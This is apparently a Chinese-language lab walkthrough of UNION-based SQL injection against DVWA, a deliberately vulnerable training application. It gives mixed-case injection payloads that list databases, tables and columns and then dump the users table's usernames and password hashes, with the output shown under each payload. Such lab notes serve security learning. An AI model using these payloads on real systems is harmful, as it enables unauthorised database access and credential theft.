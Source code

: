 



### 所有資料庫
```

1' UNION SELECT @, gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata #


//顯示
|information_schema|,|dvwa|,|my_db|,|mysql|,|performance_schema|,|sys|
```



### dvwa 所有表
```
1' UniOn Select @, gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema ='dvwa' #

//顯示
|guestbook|,|users|
```



### users 表所有 column_name
```
1' UniOn Select @, gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name ='users' #


//顯示
|user_id|,|first_name|,|last_name|,|user|,|password|,|avatar|,|last_login|,|failed_login|,|USER|,|CURRENT_CONNECTIONS|,|TOTAL_CONNECTIONS|
```




### users 表所有帳號 密碼
```
1' UniOn Select  @, gRoUp_cOncaT(0x7c,user,0x7C) fRoM users #

//顯示
|admin|,|gordonb|,|1337|,|pablo|,|smithy|



1' UniOn Select  @, gRoUp_cOncaT(0x7c,password,0x7C) fRoM users #

//顯示
|f1c1592588411002af340cbaedd6fc33|,|e99a18c428cb38d5f260853678922e03|,|8d3533d75ae2c3966d7e0d4fcc69216b|,|0d107d09f5bbe40cade3de5c71e9e9b7|,|5f4dcc3b5aa765d61d8327deb882cf99|
```

